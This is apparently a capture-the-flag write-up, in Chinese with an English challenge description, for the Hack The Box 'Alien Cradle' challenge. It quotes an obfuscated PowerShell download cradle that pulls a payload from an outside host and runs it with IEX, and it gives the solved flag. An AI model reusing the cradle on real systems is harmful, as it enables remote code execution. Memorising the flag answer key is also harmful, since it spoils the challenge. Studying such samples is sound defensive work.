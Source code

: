 # Alien Cradle

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

为了获取更多关于遗迹的信息，外星人发动了一场袭击，目标是潘多拉的密友和合作伙伴，因为他们可能掌握着有关遗迹的秘密情报。在最近一起被怀疑是他们操纵的事件中，潘多拉从事件日志中发现了一个奇怪的PowerShell脚本，也称为PowerShell“摇篮”。这些脚本通常用于下载并执行攻击的下一阶段。然而，这个脚本似乎经过了混淆，潘多拉无法理解它。你能帮她去混淆吗？

:::

附件为一份 Powershell 脚本

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

从中就能得到 flag

```bash
PowerShell 7.4.1
PS C:\Users\Randark> 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

```plaintext title="Flag"
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```
